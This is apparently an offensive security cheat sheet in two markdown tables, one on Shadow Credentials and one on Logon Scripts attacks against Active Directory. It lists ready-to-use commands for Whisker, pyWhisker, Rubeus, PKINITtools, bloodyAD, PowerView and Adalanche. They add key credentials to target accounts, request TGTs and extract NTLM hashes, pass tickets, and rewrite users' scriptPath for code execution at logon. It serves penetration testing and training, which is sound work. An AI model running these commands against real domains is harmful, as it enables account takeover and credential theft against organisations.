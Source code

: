 ## Shadow Credentials

| `Command` | `Description` |
|-|-|
| `xfreerdp /u:<USER> /p:<PASSWORD> /d:<DOMAIN> /v:<IP> /dynamic-resolution /drive:.,linux` | Connect to RDP with xfreerdp |
| `Get-DomainUser -Filter '(msDS-KeyCredentialLink=*)'` | Use PowerView to query for users with msDS-KeyCredentialLink attribute not empty |
| `.\Whisker.exe list /target:<TARGET>` | List Key Credential attribute with Whisker |
| `.\Whisker.exe add /target:<TARGET>` | Add key credentials with Whisker |
| `.\Rubeus.exe asktgt /user:<USER> /certificate:<CERTIFICATE> /password:"<PASSWORD>" /domain:<DOMAIN> /dc:<DC> /getcredentials /show` | Retrieve TGT and NTLM hash with Rubeus |
| `.\Rubeus.exe createnetonly /program:powershell.exe /show` | Create sacrificial logon session with Rubeus |
| `.\Rubeus.exe ptt /ticket:<BASE64>` | Pass the ticket using Gabriel's TGT with Rubeus |
| `.\Whisker.exe remove /target:<TARGET> /deviceid:<DEVICEID>` | Remove specific key credential value with Whisker |
| `.\Whisker.exe clear /target:<TARGET>` | Clear all key credentials with Whisker |
| `Get-DomainObjectAcl -Identity <TARGET>` | Get the ACEs of a user with PowerView |
| `python3 examples/dacledit.py -principal <USER> -target <TARGET> -dc-ip <DC_IP> <DOMAIN>'/'<USER>':'<PASSWORD>'` | Get the ACEs of a user with dacledit |
| `python3 pywhisker.py -d <DOMAIN> -u <USER> -p <PASSWORD> --target <TARGET> --action add` | Add key credentials from Linux with pyWhisker |
| `python3 gettgtpkinit.py -cert-pfx <CERTIFICATE> -pfx-pass <PASSWORD> <DOMAIN>/<USER> <CCACHE_FILE>` | Use gettgtpkinit.py to generate TGT |
| `KRB5CCNAME=<CCACHE_FILE> python3 getnthash.py -key <KEY> <DOMAIN>/<USER>` | Extract NT hash with getnthash.py |
| `KRB5CCNAME=<CCACHE_FILE> smbclient.py -k -no-pass <DC>` | Connect to a shared folder using TGT with smbclient |

## Logon Scripts

| `Command` | `Description` |
|-|-|
| `bloodyAD --host "<DC_IP>" -d "<DOMAIN>" -u "<USER>" -p '<PASSWORD>' set object <TARGET_USER> scriptPath -v '<PATH>'` | Set `scriptPath` with `bloodyAD` |
| `bloodyAD --host "<DC_IP>" -d "<DOMAIN>" -u "<USER>" -p '<PASSWORD>' get object <TARGET_USER> --attr scriptPath` | Get `scriptPath` with `bloodyAD` |
| `smbcacls //<DC_IP>/NETLOGON <DIR> -U <USER>%'PASSWORD'` | Display ACLs on an NT file or directory name with `smbcacls` |
| `pywerview get-objectacl --name '<TARGET_USER>' -w <DOMAIN> -t <DC_IP> -u '<USER>' -p '<PASSWORD>' --resolve-sids --resolve-guids` | Get the ACEs of `<USER>` over `<TARGET_USER>` with `PywerView` |
| `python3 examples/dacledit.py -principal '<USER>' -target '<TARGET_USER>' -dc-ip <DC_IP> <DOMAIN>'/'<USER>':'<PASSWORD>'` | Get the ACEs of `<USER>` over `<TARGET_USER>` with `dacledit` |
| `./adalanche-linux-x64-v<VERSION> collect activedirectory --domain <DOMAIN> --server <DC_IP>  --username '<USER>' --password '<PASSWORD>'` | Collect data from AD with `Adalanche` |
| `./adalanche-linux-x64-v<VERSION> analyze --datapath <DATAPATH>` | Launch interactive discovery tool with `Adalanche` |
| `Set-DomainObject <TARGET_USER> -Set @{'scriptPath'='<PATH>'}` | Modify `scriptPath` with `PowerView` |
| `Get-DomainObject <TARGET_USER> -Properties scriptPath` | Get `scriptPath` with `PowerView` |
| `ls $env:LOGONSERVER\NETLOGON` | List available folders within `NETLOGON` with PowerShell |
| `icacls $env:LOGONSERVER\NETLOGON\<DIR>` | Determine permissions on a folder within `NETLOGON` with `icacls` |
| `.\Invoke-ScriptSentry.ps1` | Run `ScriptSentry` to discover misconfigurations in logon scripts |

